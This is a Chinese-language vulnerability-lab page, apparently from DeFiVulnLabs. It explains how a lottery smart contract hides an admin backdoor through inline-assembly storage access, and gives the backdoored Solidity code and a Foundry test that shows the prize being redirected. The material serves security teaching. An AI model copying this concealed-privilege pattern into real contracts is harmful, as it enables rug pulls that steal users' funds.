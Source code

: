# 合约中隐藏的后门  
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)  
**名称：** 合约中隐藏后门漏洞  
**描述：**   
在这份合同中，一个看似公平的“LotteryGame”合约被巧妙地设计为允许
合同部署者/管理员拥有隐藏特权。  
这是通过使用汇编级的访问来存储变量，其中一个“referee”函数被设计为提供了一个管理后门。  
“pickWinner”函数似乎是随机选择一个赢家，但实际上它允许管理员设置赢家。  
这绕过了通常的访问控制，可以被未经授权的用户用来从奖池中提取资金，类似于rug pull的操作。  

攻击者可以通过编写内联汇编来操纵智能合约，以实现后门功能。任何敏感的参数都可以随时被更改。  


**场景：**  
抽奖游戏：任何人都可以调用pickWinner函数，如果你幸运的话，就能获得奖金。  
参考JST合约的后门。许多rugged的合约都有类似的模式。
合约中似乎没有setWinner函数，管理员如何进行rug操作呢？  

**LotteryGame合约：**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            //读取存储在插槽2上的管理员地址
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // 管理员后门，可以设置赢家地址
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv
```
// 定义一个名为 testBackdoorCall 的公共函数
function testBackdoorCall() public {
    // 声明两个地址，alice和bob，并将它们的值设置为分别从vm.addr(1)和vm.addr(2)的地址。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // 部署LotteryGame合约的新实例，并将引用存储在LotteryGameContract变量中。
    LotteryGameContract = new LotteryGame();

    // 打印一条消息，指示Alice将调用pickWinner函数，但她实际上不会是赢家。
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // 调用vm的prank函数，以Alice的地址作为参数，暗示可能进行一些操作。
    vm.prank(alice);

    // 调用LotteryGameContract的pickWinner函数，将Alice的地址作为参数传递。
    LotteryGameContract.pickWinner(address(alice));

    // 在pickWinner函数调用后，打印当前抽奖奖金的金额。
    console.log("Prize: ", LotteryGameContract.prize());

    // 印一条消息，表示管理员将设置赢家以取走奖金。
    console.log("Now, admin sets the winner to drain out the prize.");

    // 再次调用LotteryGameContract的pickWinner函数，但这次将 Bob的地址作为参数传递。。
    LotteryGameContract.pickWinner(address(bob));

    // 打印管理员通过操纵设置的赢家地址。
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```  
**红框：** 恶意设置的赢家可以中奖。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc89ca10c-c526-479d-83f5-a7f798142b42%2FUntitled.png?table=block&id=65b900de-4ff0-4ffa-8685-071dd4112db5&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)